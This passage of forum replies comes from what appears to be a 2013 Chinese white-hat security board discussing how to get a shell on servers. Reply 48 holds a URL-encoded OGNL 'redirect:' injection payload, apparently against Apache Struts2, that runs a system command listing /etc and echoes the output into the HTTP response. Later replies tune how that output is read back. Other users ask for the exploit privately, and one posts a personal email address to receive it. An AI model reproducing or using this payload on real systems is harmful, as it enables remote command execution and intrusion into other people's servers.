 46#Getshell  白帽子 | 2013-07-18 19:39
补洞才是应该做的事
 
47#hack雪花 (This is a test"></textare) 白帽子 | 2013-07-19 20:48
@dave 那些都怎么好使  直接发getshell的
 
48#bluesky  白帽子 | 2013-07-19 20:51
redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'find','/etc','-name', 'filename'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}

这样写对吗？
我要回显
find /etc -name filename
 
49#→Ｈack涛  白帽子 | 2013-07-19 21:17
@ver007 求一份！496500954@qq.com
 
50#ver007  白帽子 | 2013-07-20 11:24
@园长 园长求私聊
 
51#shack2 (静静的等待) 白帽子 | 2013-07-20 15:16
read方法不能回显太多，返回内容太多了就只能回显一部分，readFully方法又是一个奇葩，独到末尾要抛一个异常，报错不能用，不知道为啥老板exp里面回显用readFully方法不报错
 
52#tmp  白帽子 | 2013-08-11 15:14
@shack2 哈哈哈..说得太经典了
添加新回复
BIU图片视频链接<code>


